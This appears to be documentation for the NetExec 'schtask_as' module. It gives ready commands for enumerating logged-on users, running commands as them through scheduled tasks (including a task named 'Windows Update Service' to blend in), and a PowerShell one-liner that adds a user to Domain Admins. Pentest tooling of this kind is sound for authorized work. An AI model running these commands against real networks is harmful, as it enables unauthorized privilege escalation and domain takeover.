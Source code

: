 ```yaml
---
description: >-
  Use Sessions from logged-on Users to execute arbitrary commands using
  schtask_as
---
```


# 🆕 Impersonate logged-on Users

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

The Module `schtask_as` can execute commands on behalf of other users which have sessions on the target, thanks to the contribution from [@Defte\_](https://twitter.com/Defte\_).

### 1. Enumerate logged-on users on your Target

There are two ways you can enumerate logged on users on a Windows machine:

* --loggedon-user

```bash
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
```

* --qwinsta

```bash
nxc smb <ip> -u <localAdmin> -p <password> --qwinsta
```

Note that these two options do not output the same result at all. Indeed --loggedon-users returns the list of logged users as well as to which DC they connected to.
The --qwinsta returns the windows interactive sessions that are running on the system. Having a loggedon users doesn't necessarly mean that you can impersonate it via schtask_as, indeed that module requires the user you are targetting to have a Windows interactive session. As such, if you really want to be sure you can impersonate someone with that module, run the --qwinsta option.

### 2. Execute commands on behalf of other users

```bash
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

<figure><img src="../.gitbook/assets/schtask_as.png" alt=""><figcaption></figcaption></figure>

### Module options:

```bash
BINARY         Upload the binary to be executed by CMD
CMD            Command to execute
USER           User to execute command as
TASK           OPTIONAL: Set a name for the scheduled task name
FILE           OPTIONAL: Set a name for the command output file
LOCATION       OPTIONAL: Set a location for the command output file (e.g. '\tmp\')
```

Example:

```bash
nxc smb [] -u [] -p [] --local-auth -M schtask_as -o USER=[target] CMD="whoami" TASK="Windows Update Service" FILE="update.log" LOCATION="\\Windows\\Tasks\\"
```

Custom command to add a user to the domain admin group for easy copy\&pasting:

```powershell
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```

Note that the BINARY option allows you specifying a local binary that will first be uploaded to the remote server, executed and cleared. This allows us not having to upload the binary and then run the module.
